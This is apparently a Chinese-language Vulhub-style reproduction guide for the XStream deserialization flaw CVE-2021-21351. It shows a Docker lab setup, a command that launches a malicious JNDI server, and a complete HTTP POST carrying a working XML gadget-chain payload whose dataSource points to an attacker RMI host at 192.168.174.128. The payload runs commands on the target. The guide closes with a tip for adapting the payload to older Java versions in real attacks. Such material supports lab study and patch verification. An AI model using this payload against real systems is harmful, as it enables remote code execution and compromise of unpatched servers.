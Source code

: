 # XStream 反序列化命令执行漏洞 CVE-2021-21351

## 漏洞描述

XStream 是一个轻量级、简单易用的开源 Java 类库，它主要用于将对象序列化成 XML（JSON）或反序列化为对象。

XStream 在解析 XML 文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.15 及之前版本黑名单存在缺陷，攻击者可利用 `javax.naming.ldap.Rdn$RdnEntry` 及 `javax.sql.rowset.BaseRowSet` 构造 JNDI 注入，进而执行任意命令。

参考链接：

- https://x-stream.github.io/CVE-2021-21351.html
- https://paper.seebug.org/1543/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java
- https://github.com/welk1n/JNDI-Injection-Exploit/

## 环境搭建

Vulhub 执行如下命令启动一个 Springboot + XStream 1.4.15 的环境：

```
docker-compose up -d
```

环境启动后，我们向 `http://your-ip:8080` 发送一个正常的 XML 数据包，将会得到预期返回：

![image-20220302230633143](images/202203022306230.png)

## 漏洞复现

由于目标环境 Java 版本高于 8u191，故我们需要借助 [这篇文章](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) 中给出的方法，使用 `org.apache.naming.factory.BeanFactory` 加 EL 表达式注入的方式来执行任意命令。

使用 [这个工具](https://github.com/welk1n/JNDI-Injection-Exploit/) 启动恶意 JNDI 服务器：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/awesome_poc" -A 192.168.174.128
```

![image-20220302230916698](images/202203022309839.png)

根据 Java 版本，使用上图中基于 SpringBoot 利用链的 RMI 地址作为 `<dataSource>` 的值，构造 POC 如下：

```
POST / HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3184

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://192.168.174.128:1099/tznmqn</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

其中，evil-ip 是恶意 RMI 服务器的地址。然后，进入目标容器内，可见 `touch /tmp/awesome_poc` 已成功执行：

![image-20220302231116882](images/202203022311937.png)

在实战中，如果目标 Java 版本较低，POC 需要做修改，将其中的 `<__overrideDefaultParser>false</__overrideDefaultParser>` 改成 `<__useServicesMechanism>false</__useServicesMechanism>` 即可。

